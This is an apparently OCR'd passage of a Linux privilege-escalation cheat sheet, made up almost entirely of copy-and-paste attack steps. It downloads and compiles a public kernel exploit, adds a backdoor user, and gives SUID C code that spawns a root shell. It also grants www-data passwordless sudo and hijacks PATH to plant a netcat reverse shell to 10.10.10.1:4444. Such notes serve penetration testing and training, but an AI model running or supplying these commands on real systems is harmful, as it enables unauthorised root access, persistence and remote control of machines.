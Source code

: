           wget -O exploit.c http://www.exploit-db.com/download/18411 
          gcc -o mempodipper exploit.c  
          ./mempodipper

*   CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8  
    [https://dirtycow.ninja/](http://web.archive.org/web/20171113221652/https://dirtycow.ninja/)  
    First existed on 2.6.22 (released in 2007) and was fixed on Oct 18, 2016

*   Run a command as a user other than root

          sudo -u haxzor /usr/bin/vim /etc/apache2/sites-available/000-default.conf

*   Add a user or change a password

          /usr/sbin/useradd -p 'openssl passwd -1 thePassword' haxzor  
          echo thePassword | passwd haxzor --stdin

*   Local Privilege Escalation Exploit in Linux

    *   **SUID** (**S**et owner **U**ser **ID** up on execution)  
        Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.

        below are some quick copy and paste examples for various shells:

              SUID C Shell for /bin/bash  

              int main(void){  
              setresuid(0, 0, 0);  
              system("/bin/bash");  
              }  

              SUID C Shell for /bin/sh  

              int main(void){  
              setresuid(0, 0, 0);  
              system("/bin/sh");  
              }  

              Building the SUID Shell binary  
              gcc -o suid suid.c  
              For 32 bit:  
              gcc -m32 -o suid suid.c

    *   Create and compile an SUID from a limited shell (no file transfer)

              echo "int main(void){\nsetgid(0);\nsetuid(0);\nsystem(\"/bin/sh\");\n}" >privsc.c  
              gcc privsc.c -o privsc

*   Handy command if you can get a root user to run it. Add the www-data user to Root SUDO group with no password requirement:

    `echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update`

*   You may find a command is being executed by the root user, you may be able to modify the system PATH environment variable to execute your command instead. In the example below, ssh is replaced with a reverse shell SUID connecting to 10.10.10.1 on port 4444.

         set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
         echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
         chmod +x ssh

